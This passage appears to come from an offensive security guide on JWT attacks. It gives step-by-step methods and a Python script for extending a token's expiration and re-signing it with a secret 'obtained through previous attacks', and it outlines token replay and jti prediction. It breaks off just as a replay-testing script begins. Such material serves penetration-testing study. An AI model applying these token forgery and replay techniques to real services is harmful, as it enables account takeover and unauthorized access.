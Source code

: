        httpd = HTTPServer(('0.0.0.0', 8080), CertHandler)
       print("Certificate server running at http://0.0.0.0:8080/")
       httpd.serve_forever()
       ```

  - **Exploiting JWT claim vulnerabilities**
    1. **Expired token manipulation**:
       - Step 1: Capture a valid JWT
       - Step 2: Decode the payload to check for `exp` (expiration) claim
       - Step 3: Modify the expiration timestamp to extend token validity
       - Step 4: If the signature is validated, you'll need the secret key to sign it
       - Step 5: Send the modified token to the server
       - Example: Change `"exp":1516239022` to a future timestamp
       - Testing insight: Try removing the `exp` claim entirely
       - Exploitation insight: Some applications don't validate expiration on the server side
       - Python script for manipulating expiration:
       ```python
       import jwt
       import time
       
       # Original JWT with expired timestamp
       token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJleHAiOjE1MTYyMzkwMjJ9.signature"
       
       # Decode the token without verification
       payload = jwt.decode(token, options={"verify_signature": False})
       
       # Update expiration to one year in the future
       payload['exp'] = int(time.time()) + 31536000
       
       # If you have the secret key (obtained through previous attacks), sign it
       # For this example, assuming secret key is "your_secret_key"
       secret = "your_secret_key"
       
       # Create new token with updated expiration
       new_token = jwt.encode(payload, secret, algorithm="HS256")
       
       print(new_token)
       ```

    2. **Token replay attack**:
       - Step 1: Capture a valid JWT from your session
       - Step 2: Send requests with this token after your session should be invalid
       - Step 3: Check if the server still accepts the token
       - Step 4: If `jti` (JWT ID) claim is used, try capturing multiple tokens to identify patterns
       - Step 5: If patterns are found, predict and generate valid `jti` values
       - Testing insight: Try using tokens after logout or password change
       - Exploitation insight: Some implementations don't invalidate tokens properly after logout
       - Script to test token validity after various session events:
       ```python
       import requests
       import time
       
